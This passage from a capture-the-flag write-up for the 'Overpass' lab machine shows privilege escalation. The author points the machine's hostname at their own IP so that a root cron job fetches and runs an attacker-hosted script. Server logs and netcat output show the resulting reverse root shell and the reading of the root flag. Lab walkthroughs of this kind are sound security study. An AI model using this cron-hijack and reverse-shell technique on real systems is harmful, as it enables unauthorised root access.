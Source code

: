 Now I only have to replace the IP for overpass.thm with my attacker machine IP, and save

Now it's only a matter of waiting for a minute for the cron job to catch the script, you will see the python server display a message that there was a connection:
```
{victim IP} - - [21/Jul/2020 01:21:13] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

And momentarily later, the netcat listener perks up:
```
connect to [{My Machine's IP}] from (UNKNOWN) [{victim IP}] 60972
bash: cannot set terminal process group (22324): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
root
```
We have root!

## Capturing root
Now with our root user, we just have to scoop up the flag.
```
root@overpass-prod:~# cat /root/root.txt
```